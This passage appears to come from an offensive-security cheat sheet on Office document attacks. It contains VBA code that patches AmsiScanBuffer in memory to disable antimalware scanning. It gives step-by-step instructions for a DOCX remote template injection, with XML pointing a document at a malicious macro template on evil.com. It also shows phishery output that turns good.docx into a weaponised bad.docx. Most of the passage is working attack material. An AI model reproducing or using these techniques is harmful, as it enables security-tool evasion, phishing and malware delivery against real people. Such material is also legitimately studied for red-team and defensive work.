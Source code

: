 ```vb
    MyByteArray(5) = 195 ' 0xC3
 
    AmsiDLL = LoadLibrary("amsi.dll")
    AmsiScanBufferAddr = GetProcAddress(AmsiDLL, "AmsiScanBuffer")
    result = VirtualProtect(ByVal AmsiScanBufferAddr, 5, 64, 0)
    ArrayPointer = VarPtr(MyByteArray(0))
    CopyMemory ByVal AmsiScanBufferAddr, ByVal ArrayPointer, 6
     
End Sub
```

## DOCX - Template Injection

:warning: Does not require "Enable Macro"

### Remote Template

1. A malicious macro is saved in a Word template .dotm file
2. Benign .docx file is created based on one of the default MS Word Document templates
3. Document from step 2 is saved as .docx
4. Document from step 3 is renamed to .zip
5. Document from step 4 gets unzipped
6. **.\word_rels\settings.xml.rels** contains a reference to the template file. That reference gets replaced with a reference to our malicious macro created in step 1. File can be hosted on a web server (http) or webdav (smb).
    ```xml
    <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
    <Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="file:///C:\Users\mantvydas\AppData\Roaming\Microsoft\Templates\Polished%20resume,%20designed%20by%20MOO.dotx" TargetMode="External"/></Relationships>
    ```
    ```xml
    <?xml version="1.0" encoding="UTF-8" standalone="yes"?><Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"
    Target="https://evil.com/malicious.dotm" TargetMode="External"/></Relationships>
    ```
7. File gets zipped back up again and renamed to .docx

### Template Injections Tools

* https://github.com/JohnWoodman/remoteInjector
* https://github.com/ryhanson/phishery

```ps1
$ phishery -u https://secure.site.local/docs -i good.docx -o bad.docx
[+] Opening Word document: good.docx
[+] Setting Word document template to: https://secure.site.local/docs
[+] Saving injected Word document to: bad.docx
[*] Injected Word document has been saved!
```
